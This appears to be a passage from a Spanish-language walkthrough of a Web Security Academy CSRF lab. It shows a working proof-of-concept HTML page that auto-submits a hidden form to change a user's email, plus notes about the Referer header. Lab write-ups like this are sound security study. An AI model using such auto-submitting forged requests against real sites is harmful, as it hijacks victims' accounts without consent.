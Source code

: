 ```
<html>
    <head>
        <title>CSRF</title>
    </head>
    <body>
        <form action="https://0ac9005e04c5dc3181cded9100f3002c.web-security-academy.net/my-account/change-email" method="POST">
            <input type="hidden" name="email" value="test@test.com">
        </form>

        <script>
            document.forms[0].submit();
        </script>
    </body>
</html>
```

<figure><img src="../../.gitbook/assets/image (7) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

Nos sale como el anterior laboratorio pero aún así con la etiqueta meta no lo solucionamos. Vemos la cabecera de Referer.

<figure><img src="../../.gitbook/assets/image (8) (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>
